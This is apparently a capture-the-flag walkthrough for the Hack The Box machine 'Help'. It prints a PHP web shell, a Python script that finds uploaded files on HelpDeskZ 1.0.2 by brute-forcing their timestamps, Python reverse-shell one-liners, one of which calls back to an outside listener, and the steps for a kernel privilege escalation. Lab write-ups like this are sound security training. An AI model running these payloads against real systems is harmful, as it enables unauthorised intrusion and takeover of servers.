









# Help



__Machine URL__: https://www.hackthebox.eu/home/machines/profile/170

__Machine IP__: 10.10.10.121

__DATE__ : 3/05/2019

__START TIME__: 9:50 AM

***


`Nmap scan`
-----------


There is nothing new going on in here. Just some basic ports along with a port 3000 running another website written in node.

Let's enum both of those website and see what we find


`dirsearch`
-------------



So there's a javascript folder but when we try to open it up we get error `403`that means we are forbidden from accessing the content.

But we can open the `/support/` URL.

Let's see what we find on port `3000` i.e the nodejs website



The port 3000 looks like having an API. And there are two URLs that have been found.

Getting Credentials
--------------------

If we visit the http://10.10.10.121:3000/ we get the following data:

```json
➜ http http://10.10.10.121:3000/ | jq .
{
  "message": "Hi Shiv, To get access please find the credentials with given query"
}
```

We know one thing from this. That there's a user(maybe admin?) named `Shiv`

Now visiting the `graphql/` We get:

```bash
➜ http http://10.10.10.121:3000/graphql
HTTP/1.1 400 Bad Request
Connection: keep-alive
Date: Fri, 03 May 2019 04:57:46 GMT
Transfer-Encoding: chunked
X-Powered-By: Express

GET query missing.
```
So we can use this to find more information about the user and password.




Cracking the hash `5d3c93182bb20f07b994a7f617e99cff` we get `godhelpmeplz`

CREDENTIALS: `helpme@helpme.com:godhelpmeplz`

**NOTE**: How did I found it in a first try? Read: https://github.com/Anonyme1396/security-tips/blob/master/web.md#exploiting-2

File Upload Vulnerability
-------------------------

A simple google search with `Helpdeskz exploit` bears out a result [HelpDeskZ 1.0.2 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40300)

This mean we can upload the file and then simply use this to find the location of the uploaded file.

I uploaded a `backdoor.php`

```php
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```


When you'll submit the file it is possible that you'll get an error saying
`File is not allowed.`. This does set me off first so I decided to go through the `Helpdeskz` [source code](https://github.com/evolutionscript/HelpDeskZ-1.0), since it is open source application.


After looking around I found a file in `include/parser` called `new-ticket.php`



After the file is uploaded it perform a check on the `$fileinfo` by passing that value to a `verifyAttachment` function. Let's take a look at this function



This function is perform multiple checks on the file but there's isn't any `file extension` check. This mean the error we are getting i.e `File not allowed` is meaningless and we can totally ignore it.

Exploit
-------
One of my friend suggested to use the exploit from `0day`

```python
import requests
import hashlib
from time import time


def md5(data):
    return hashlib.md5(data.encode("utf-8")).hexdigest()


def get(base, filename, at):
    uploaded_file = "{}/uploads/tickets/{}.{}".format(
        base.rstrip("/"), md5(filename + str(at)), filename.split(".")[-1]
    )

    r = requests.get(uploaded_file)
    if r.status_code == 200:
        return uploaded_file


def main():
    for i in range(1000):
        url = get("http://10.10.10.121/support/", "backdoor.php", int(time() - i))
        if url is not None:
            print(url)
            return
    print("Oops ... not found")


if __name__ == "__main__":
    main()
```

Since there's some timezone issue with `Helpdeskz` I decided to change the timezone.



Then I ran the exploit and got the path to the file.

```
http://10.10.10.121/support/uploads/tickets/84c045a6c4cccf0880fc139c6ba7599a.php
```

PWN USER
--------


In this way we can get the user



PWN root
--------

Now first we need to get reverse shell to get into the machine. I tried to pass
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
but for some reason this didn't worked so I encoded everything and then decided to do it.
```bash
http://10.10.10.121/support/uploads/tickets/84c045a6c4cccf0880fc139c6ba7599a.php?cmd="python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2210.10.12.139%22%2C4444))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27"
```
With this I got the reverse shell.

Then I spawned a pty shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

After that I enumerated with the help of `LinEnum` and found a kernel vulnerable to [local privilege escalation vulnerability](https://www.exploit-db.com/exploits/44298)



So I downloaded the exploit and compiled it and then run it. This will give you the root shell. Then you can simply cat the `/root/root.txt`

```
b7fe6082dcdf0c1b1eXXXXXXXXXXXXXXX
```
